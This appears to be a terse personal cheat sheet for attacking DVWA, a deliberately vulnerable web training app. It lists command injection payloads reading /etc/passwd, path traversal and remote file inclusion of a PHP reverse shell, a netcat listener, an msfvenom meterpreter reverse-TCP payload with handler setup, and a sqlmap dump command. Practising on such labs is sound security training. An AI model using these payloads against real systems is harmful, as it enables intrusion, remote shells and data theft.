 ## Brute force
Get token from html hidden box 
## Command Injection
Medium 127.0.0.1| cat /etc/passwd
Hight 8.8.8.8|pwd
; && || | &
## Cross Site Request Forgery (CSRF)
token=1

## File Inclusion
Scan files
`wfuzz -c --hl 81 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -b "security=low; PHPSESSID=a0bf6sa3dqu1hhrbrcd13f6rko" "http://192.168.1.209/DVWA/vulnerabilities/fi/?page=../../hackable/flags/FUZZ.php"`

### injectable webfiles
/usr/share/laudanum/php/php-reverse-shell.php 

http://192.168.1.209/DVWA/vulnerabilities/fi/?page=http://127.0.0.1:9000/shell.php
### download php website
http://192.168.1.209/DVWA/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../hackable/flags/fi.php

file:///etc/passwd 

## File Upload

#### PyLocalServer
sudo python -m http.server 1337
sudo python2 -m SimpleHTTPServer 1337

#### Listen remote Shell 
nc -nlvp 1337 

weevely
msfvenom -p php/meterpreter_reverse_tcp lhost=127.0.0.1 lport=4444 -f raw > exploit.php
msfconsole
use exploit/multi/handler
set payload php/meterpreter_reverse_tcp
set lhost 127.0.0.1

### Sql injection 
sqlmap -r request.txt -p id --dump

### 
tldr 
